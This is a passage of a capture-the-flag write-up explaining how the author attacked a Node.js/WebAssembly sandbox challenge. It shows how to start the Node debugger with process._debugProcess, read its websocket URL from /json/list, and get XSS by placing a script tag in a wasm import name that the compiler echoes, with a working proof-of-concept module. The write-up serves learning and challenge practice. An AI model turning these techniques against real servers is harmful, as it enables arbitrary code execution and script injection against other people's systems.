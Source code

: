There are quite a few short flag names. `-Mo` means execve once, `-Q` means quiet, and `-N` causes... the host network to be bridged? This made me think we were expected to somehow start a server inside the jail that the admin bot could connect to - since we bypassed the port filter and all.

As it turns out, the _debugProcess(pid) function starts a debug server!
```
> process._debugProcess(0)
Debugger listening on ws://127.0.0.1:9229/d393084e-b372-407c-972d-cb130dd35d4a
For help, see: https://nodejs.org/en/docs/inspector
```

The documentation states `a malicious actor able to connect to this port may be able to execute arbitrary code on behalf of the Node.js process`. This sounds perfect, but it's a websocket server and requires a random uuidv4.

After doing some googling, I found out this port also runs a few [HTTP endpoints](https://github.com/nodejs/node/blob/master/src/inspector_socket_server.cc#L324) including `/json/list`, which returns the full websocket URL to conncect to the debugger:
```
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=localhost:9229/d393084e-b372-407c-972d-cb130dd35d4a",
  "devtoolsFrontendUrlCompat": "devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=localhost:9229/d393084e-b372-407c-972d-cb130dd35d4a",
  "faviconUrl": "https://nodejs.org/static/images/favicons/favicon.ico",
  "id": "d393084e-b372-407c-972d-cb130dd35d4a",
  "title": "/snap/node/5146/bin/node[11082]",
  "type": "node",
  "url": "file://",
  "webSocketDebuggerUrl": "ws://localhost:9229/d393084e-b372-407c-972d-cb130dd35d4a"
} ]
```

Looks great, but we can't connect to this by sending the admin bot to a page on our server because it's a different host. There's actually 2 CVEs related to this where you could use DNS rebinding, but that has been fixed in the version on the server.

I started to look for places to do XSS and found a suspicious line near the top of the server:
```js
app.use(function (req, res, next) {
    res.header("Content-Type", "text/html");
    next();
});
```

This forces all responses to be rendered by the server even if the browser would usually sniff them out as a different content type. Since our wasm output is connected to /run/, I thought it would be possible to have the wasm just print out the string and get XSS that way, but turns out it's a dead end because wasm cannot pass a string to `process.emitWarning`, and we can't access `process.stdout.write` even though it would take a buffer.

However, I realized we could use the compiler error messages. Trying to import a function that fails will print its name to stdout. For example, if we upload the following and visit its /run/ page directly, we will get an alert popup.
```
(module
  (import "process" "<script>alert(1)</script>" (func $return (param i32)))
  (func (export "main") (local $meme1 i32)
    i32.const 69420
    call $return
  )
)
```
